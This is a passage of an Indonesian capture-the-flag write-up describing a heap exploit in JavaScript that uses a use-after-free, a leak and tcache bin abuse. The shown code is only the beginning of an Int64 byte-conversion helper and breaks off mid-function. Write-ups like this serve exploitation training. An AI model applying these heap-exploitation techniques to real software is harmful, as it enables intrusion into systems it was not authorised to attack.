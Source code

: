 ![Error](/assets/images/3_Favorite_Problems_2020/1.png)

Yah gabisa gitu jadinya. Yasudah karena sudah ada UAF yang perlu kita lakukan hanyalah mendapatkan _leak_ dan gunakan tcache bin dengan cara yang biasa. Oh dan kita harus lakukan semuanya dalam JS, daripada cara biasa yaitu python+pwntools. Saya temukan gist [ini](https://gist.github.com/itszn/73cc299b9bcff1ed585e6206d1ade58e) di github yang membantu saya dengan fungsi-fungsi utility yang saya perlukan

Berikut _exploit_ lengkap saya:

```js
function Int64(v) {
    // The underlying byte array.
    var bytes = new Uint8Array(8);

    switch (typeof v) {
        case 'number':
            v = '0x' + Math.floor(v).toString(16);
        case 'string':
            if (v.startsWith('0x'))
                v = v.substr(2);
            if (v.length % 2 == 1)
                v = '0' + v;

            var bigEndian = unhexlify(v, 8);
            bytes.set(Array.from(bigEndian).reverse());
            break;
        case 'object':
            if (v instanceof Int64) {
                bytes.set(v.bytes());
            } else {
                if (v.length != 8)
                    throw TypeError("Array must have excactly 8 elements.");
                bytes.set(v);
            }
            break;
```